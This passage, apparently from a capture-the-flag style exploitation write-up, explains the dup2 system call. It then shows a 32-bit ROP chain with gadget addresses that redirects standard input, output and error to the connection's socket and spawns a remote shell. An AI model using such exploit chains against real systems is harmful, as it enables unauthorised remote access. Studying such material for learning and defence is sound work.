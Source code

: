 The `dup2` function works as such: 

> dup2(int oldfd, int newfd);
>
> The dup() system call allocates a new file descriptor that refers to the same open file description as the descriptor oldfd.
> The dup2() system call performs the same task as dup(), but
instead of using the lowest-numbered unused file descriptor, it
uses the file descriptor number specified in newfd.  In other
words, the file descriptor newfd is adjusted so that it now
refers to the same open file description as oldfd.

Thus what I need to do is to change the `stdin` and `stdout` file descriptors (which are 0 and 1) to the socket file descriptor.

I tried to do it automatically by going into the memory to find the reference to the current file descriptor, but for some reason it didn't work.

Instead I just brute forced the value of the file descriptor I am using with my connexion, and created the `dup2` function:

```python
def dup2_known(oldfd, newfd):
    p = b""
    p += p32(0x08061d5d) # pop ecx ; pop ebx ; ret
    p += p32(newfd)
    p += p32(oldfd)
    p += p32(0x080a8f36) # pop eax ; ret
    p += p32(63)
    p += p32(0x804e54f) # int 0x80 ; mov ebx, edx ; ret
    return p
```

This allows me to redirect `stdin`, `stdout` (and `stderr`) to the socket, launch a shell on the server and tada! I'm on the remote server.

```python
KNOWN_FD = 9 # Change this value if not working
ropchain = b""
ropchain += dup2_known(KNOWN_FD, 0)
ropchain += dup2_known(KNOWN_FD, 1)
ropchain += dup2_known(KNOWN_FD, 2)
ropchain += binbash()

execute_rop(ropchain)
```
